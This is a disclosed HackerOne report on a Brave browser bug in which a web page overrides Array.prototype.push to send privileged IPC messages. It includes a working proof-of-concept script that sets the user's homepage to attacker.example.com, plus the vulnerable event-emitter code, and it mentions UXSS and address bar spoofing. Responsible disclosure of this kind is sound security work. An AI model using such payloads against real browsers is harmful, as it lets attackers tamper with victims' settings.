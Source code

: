 # Sending arbitrary IPC messages via overriding Array.prototype.push

## Report Details
- **Report ID**: 188561
- **URL**: https://hackerone.com/reports/188561
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-12-06T01:43:30.507Z
- **Disclosed**: 2018-09-18T18:15:36.258Z

## Reporter
- **Username**: masatokinugawa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
This bug is similar to #187542 and #188086.
I found that also `Array.prototype.push` is exploitable.

## Tested on: 
Brave	0.12.12

## Steps To Reproduce:
1. Go to this page: https://vulnerabledoma.in/brave/settings_change3.html 
```
<script>
Array.prototype.push=function(e){
	this[0]=function(e,f){
		e.sender.send("dispatch-action",'{"actionType":"app-change-setting","key":"general.homepage","value":"http://attacker.example.com/"}');
	}
}
</script>

<embed src=".swf"></embed>
```

2. See `about:preferences`. You can confirm that your home page is changed to `http://attacker.example.com/`.

Also an attacker can do UXSS and address bar spoofing using this bug. Please see #187542's PoC .

#Technical Details

This `push` in the `event_emitter.js` is overwritten: 
```
EventEmitter2.prototype.on = function (event, fn) {
  this._callbacks = this._callbacks || {};
  (this._callbacks['$' + event] = this._callbacks['$' + event] || [])
    .push(fn);
  return this;
};
```

Could you confirm this bug?
Thanks!

## Attachments
No attachments
